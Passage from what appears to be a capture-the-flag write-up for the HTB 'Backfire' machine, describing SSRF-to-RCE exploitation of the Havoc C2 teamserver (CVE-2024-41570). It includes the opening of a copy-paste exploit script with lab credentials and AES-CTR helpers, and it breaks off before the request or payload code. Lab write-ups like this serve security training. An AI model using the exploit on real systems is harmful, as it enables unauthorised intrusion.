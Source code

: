 ### ⚙️ Exploitation – SSRF to RCE
Discovering the Havoc C2 profile prompted further investigation into potential exploits. A  reference was the GitHub repository `chebuya/Havoc-C2-SSRF-poc`, which focuses on CVE-2024-41570. By pairing this exploit with a shell payload, initial access can be gained. Need to research how to combine the two.

Edit the `etc/host` file pointing it to backfire.htb

### Create the SSRF_RCE.py script (It is long and confusing.. but i will put it down here to copy and paste :->)
```
# Exploit Title: backfire.htb ssrf + rce
# Date: 2025-01-19

import os
import json
import hashlib
import binascii
import random
import requests
import argparse
import urllib3
urllib3.disable_warnings()

from Crypto.Cipher import AES
from Crypto.Util import Counter

USER = "ilya"
PASSWORD = "CobaltStr1keSuckz!"

key_bytes = 32

def decrypt(key, iv, ciphertext):
    if len(key) <= key_bytes:
        for _ in range(len(key), key_bytes):
            key += b"0"

    assert len(key) == key_bytes

    iv_int = int(binascii.hexlify(iv), 16)
    ctr = Counter.new(AES.block_size * 8, initial_value=iv_int)
    aes = AES.new(key, AES.MODE_CTR, counter=ctr)

    plaintext = aes.decrypt(ciphertext)
    return plaintext

def int_to_bytes(value, length=4, byteorder="big"):
    return value.to_bytes(length, byteorder)

def encrypt(key, iv, plaintext):

    if len(key) <= key_bytes:
        for x in range(len(key),key_bytes):
            key = key + b"0"

        assert len(key) == key_bytes

        iv_int = int(binascii.hexlify(iv), 16)
        ctr = Counter.new(AES.block_size * 8, initial_value=iv_int)
        aes = AES.new(key, AES.MODE_CTR, counter=ctr)

        ciphertext = aes.encrypt(plaintext)
        return ciphertext
```